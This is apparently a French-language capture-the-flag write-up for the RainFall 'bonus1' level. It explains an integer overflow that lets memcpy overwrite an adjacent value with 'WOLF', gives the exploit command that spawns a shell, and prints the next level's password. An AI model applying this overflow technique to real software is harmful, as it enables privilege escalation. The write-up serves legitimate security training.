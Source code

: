 #### Etape 1 : Décompilation

Le programme prend 2 arguments, le premier doit être inférieur à 10 et si c'est le cas il effectue un memcpy du second argument. Puis si le premier argument est égale à 0x574f4c46 il éxécute un /bin/sh.

#### Etape 2 : Informations

La string du buffer destinaire dans le memcpy fait 40 bytes. L'adresse de number et string ce suivent.
Par expérience je sais que le INT_MIN - 1 = INT_MAX;
De plus la valeur attendu pour éxécuter le /bin/sh n'est autre que la chaine de caractères ***FLOW***.
#### Etape 3 : Idée

Le but sera donc d'avoir un nombre négatif qui fois 4 devient 44 pour permettre au memcpy de réecrire l'adresse qui suit.

#### Etape 4 : Execution 

```bash
bonus1@RainFall:~$ ./bonus1 -1073741812 $(python -c 'print "a"*40 +"WOLF"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
